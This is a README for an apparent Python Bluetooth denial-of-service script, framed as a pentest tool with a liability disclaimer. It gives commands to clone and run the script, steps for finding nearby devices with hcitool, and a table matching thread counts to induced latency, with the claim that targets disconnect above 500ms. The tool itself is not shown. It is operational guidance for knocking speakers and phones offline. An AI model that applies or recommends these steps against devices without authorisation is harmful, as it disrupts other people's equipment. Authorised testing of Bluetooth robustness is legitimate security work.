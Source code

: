 <h1 align="center">Bluetooth DOS-Attack Script</h1>
<p align="center">
  <a href="https://python.org">
    <img src="https://img.shields.io/pypi/pyversions/Django.svg">
  </a>
</p>
<p align="center">Script for quick and easy DOS-attacks on bluetooth devices for pentest purposes</p>

## Disclaimer
<p align="center">This project was created only for good purposes and personal use.</p>

THIS SOFTWARE IS PROVIDED "AS IS" WITHOUT WARRANTY OF ANY KIND. YOU MAY USE THIS SOFTWARE AT YOUR OWN RISK. THE USE IS COMPLETE RESPONSIBILITY OF THE END-USER. THE DEVELOPERS ASSUME NO LIABILITY AND ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY THIS PROGRAM.
## Installing

```
$ sudo apt update
$ sudo apt install python3
$ sudo git clone https://github.com/jieggiI/BLUETOOTH-DOS-ATTACK-SCRIPT.git
$ cd Bluetooth-DOS-attack-script
$ python3 Bluetooth-DOS-Attack.py
```
### Note
<p>The script works only with Linux systems. It tested on Kali Linux.</p>
<p>You must have "l2ping" util on your linux machine (it installed as default on Kali Linux).</p>

## Using
<p>First of all, you must scan network for Bluetooth devises. For example, you can use "hcitool".</p>

```
$ sudo apt update
$ apt install hcitool
$ sudo service bluetooth start
$ hcitool scan
```
<p>Output will be like:</p>

```
A1:B2:C3:D6:E7      Xiaomi portable speaker
B1:C2:D3:E4:F5      iPhone(Toivo)
C1:D2:E3:F4:G5      Some Bluetooth device
```
<p>Then you copy target addres (for example "A1:B2:C3:D6:E7") and paste it in "Target addr".</p>

## Manual

1. "Target addr" - addres of your target (Check info upper).
2. "Packages size" - size of the packages, that will be sent to the target. 600 is optimal.
3. "Threads count" - number of threads, that will send packages to the target at the same time. Check the table below, to find optimal value.

<p>According to my calculations, if ping bigger than 500ms, Bluetooh device will turn off / disconnect.</p>


|  Packages size | Threads count| Ping, ms  | Distance, meters |
|:--------------:|:-----: |:----------:|:---------------------:|
|  600           | 1       | 8 - 9      |0,3|
|  600           | 10      | 37 - 38    |0,3|
|  600           | 20      | 75 - 90    |0,3|
|  600           | 50      | 180 - 200  |0,3|
|  600           | 100     | 375 - 400  |0,3|
|  600           | 200     | 750 - 800  |0,3|
|  600           | 500     | 1970 - 1975 |0,3|
|  600           | 1000    | 3370 - 3385 |0,3|
|  600           | 1000+   | Couldn't calculate  |0,3|
